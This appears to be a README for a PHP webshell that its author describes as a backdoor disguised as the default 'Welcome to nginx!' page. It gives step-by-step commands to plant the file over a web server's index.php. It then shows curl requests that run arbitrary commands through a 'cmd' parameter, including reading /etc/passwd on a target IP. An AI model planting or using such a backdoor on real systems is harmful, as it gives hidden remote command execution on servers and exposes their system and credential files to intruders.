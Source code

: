 # Webshell 
By Stacey Zheng

A custom webshell tool acting as a service backdoor but disguised as a "Welcome to nginx!" page.

## Prerequisites
- Git
- Curl 
- SSH session establshed with the target machine

## Instructions of Use
1) Change directory to /var/www/html
```
cd /var/www/html
```

2) Clone repo from Git 
```
sudo git clone https://github.com/Szheng25/webshell.git
```

3) Copy webshell.php into index.php 
```
sudo cp webshell/webshell.php index.php
```

4) Use curl to execute commands like `ls`, `ip a`, and `cat /etc/passwd` 
```
curl “http://100.65.2.74/index.php?cmd=ls”
curl “http://100.65.2.74/index.php?cmd=ip+a”
curl “http://100.65.2.74/index.php?cmd=cat+/etc/passwd”
```